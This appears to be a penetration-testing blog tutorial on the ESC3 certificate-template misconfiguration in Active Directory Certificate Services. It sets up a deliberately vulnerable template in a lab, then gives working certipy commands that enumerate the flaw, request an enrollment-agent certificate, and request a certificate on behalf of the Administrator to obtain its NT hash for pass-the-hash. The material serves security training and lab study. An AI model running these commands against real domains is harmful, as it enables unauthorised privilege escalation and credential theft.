








ESC3 ADCS Misconfigurations exploitation — Active Directory Pentesting
Active Directory Certificate Services (ADCS) is the target of the ESC3 certificate attack, where attackers exploit misconfigurations in certificate templates that can be used to perform privilege escalation and gain administrator accounts such as Domain Admin.
This attack would be significant when combined with a misconfiguration in the Certificate Request Agent (CRA).
Previously, I discussed ESC2, which we have already demonstrated. You can open my profile or click the following link for the ESC2 discussion.
What is ESC3
ESC3 with Certificate Request Agent allows users to request certificates on behalf of other users, services, and entities within the domain. If the template is configured incorrectly, regular users can request certificates “on behalf of” accounts with higher privileges, which can then be used for authentication or to gain access equivalent to Domain Admin.
Lab setup
Open Certificate Template configuration using WIN + R (certtempl.msc), then right-click on Certificate Templates -> Manage.

After opening Manage, select the Certificate template. You can use either the “User” or “Code Signing” template. Right-click and select Duplicate Template.
 A window titled “Properties of New Template” will appear. Okay, let’s name the template first. You can open the General tab. In this case, I will name it ESC3 so that it will be easy to identify later.

To make this vulnerable to ESC3 attacks, we need to go to the Security tab -> Add Domain Users -> Check the Enroll box, then click Apply.


Continue configuration for the Extensions tab, select Application Policies, press Edit, and select Code signing -> Remove.

Press Add and select Certificate Request Agent, then OK. Then apply and OK.

Then we enable the certificate that we created earlier by opening certtempl.msc, selecting Certificate Template, and right-clicking on that tab. Then the Certificate To Issue option will appear.

You can select the Certificate Template you created earlier and click OK.

Emumeration & Exploitation
After configuring or creating a lab for ESC3 exploitation, we can begin simulating our attack on the lab. In this case, I will use the built-in tools from Kali Linux, namely certipy, to perform enumeration and exploitation on this ESC3 misconfiguration. Let’s get started Certipy:
Using certipy, we can enumerate ADCS configurations using a regular domain user account.
certipy-ad find -u 'elena.doe@sandbox.local' -p P@ssw0rd -dc-ip 10.100.150.10 -vulnerable -enabled

To identify misconfigurations in the ADCS template, we can read the file 20251022134310_Certipy.txt.

Enrollment Agent is in True condition and if we scroll down again there is [!] Vulnerabilities ESC3: Template has Certificate Request Agent EKU set.

Okay, after we identify the misconfiguration, we can proceed to the exploitation stage. You can follow the Certipy command below.
Let’s try requesting a certificate for our user, in this case elena.doe with the domain sandbox.local.
certipy req -u 'elena.doe@sandbox.local' -p 'P@ssw0rd' -dc-ip 10.100.150.10 -ca sandbox-DC01-CA -target 'dc.sandbox.local' -template 'ESC3'

and we successfully obtained elena.doe.pfx, which we can use to make requests on behalf of the Administrator and use it to obtain the NT hash from the Administrator. You can follow the command below
certipy req -u 'elena.doe@sandbox.local' -p 'P@ssw0rd' -dc-ip 10.100.150.10 -ca sandbox-DC01-CA -target 'dc.sandbox.local' -template 'User' -on-behalf-of administrator -pfx elena.doe.pfx

Done. We successfully obtained the hash from the administrator and can use it for Pass The Hash to services on the DC (Domain Controller).
Okay, that’s all for this article. I hope this ADCS exploitation series can help you with exam certification or real-world pentesting/red teaming. Thank you, everyone. Love you all!
Reference
- https://www.hackingarticles.in/adcs-esc3-enrollment-agent-template/
- https://www.rbtsec.com/blog/active-directory-certificate-services-adcs-esc3/
- https://yangsirrr.github.io/2021/09/01/adcs-esc2-7attack/